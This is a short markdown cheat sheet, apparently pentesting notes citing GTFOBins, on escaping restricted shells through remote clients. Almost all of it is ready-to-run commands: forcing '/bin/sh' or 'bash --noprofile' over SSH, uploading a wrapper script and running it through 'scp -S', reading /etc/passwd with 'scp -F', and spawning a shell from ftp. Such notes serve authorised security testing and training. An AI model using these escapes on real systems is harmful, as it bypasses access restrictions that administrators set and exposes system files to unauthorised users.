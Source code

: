 # Remote Clients

## 01 - OpenSSH

### 1.1 - SSH

SSH on your machine to execute commands before the shell is loaded.

```
$ ssh [-p <PORT>] <username>@<IP> -t "/bin/sh"
```

Start the shell without loading "rc" profile (where most limits are configured):

```
$ ssh [-p <PORT>] <username>@<IP> -t "bash --noprofile"
```

Try to execute other commands.

```
$ ssh [-p <PORT>] <username>@<IP> <commands>
```

Sometimes just disabling pseudo-TTY allocation (`-T`) will work.

```
$ ssh [-p <PORT>] -T <username>@<IP>
```

### 1.2 - SCP

SCP: On a box that you control make a simple wrapper script, then upload it:

```
$ cat /tmp/id.sh
#!/bin/sh
/usr/bin/id

$ chmod +x /tmp/id.sh

$ scp /tmp/id.sh untrusted@demobox:
```

Once the file is uploaded, run it with scp:

```
untrusted@demobox ~ $ scp -S /home/untrusted/id.sh x y:
uid=1008(untrusted) gid=1014(untrusted) groups=1014(untrusted)
```

SCP: This options can be used to `cat` certain types of file:

```
$ scp -F /etc/passwd x y:
```

works best in a wrapper

```
$ scp -S /tmp/getMeOut.sh x y:
```

## 02 - FTP

```
$ ftp
ftp> !/bin/sh

ftp> !/bin/bash
```

---
## References

- [GTFOBins: SSH](https://gtfobins.github.io/gtfobins/ssh/)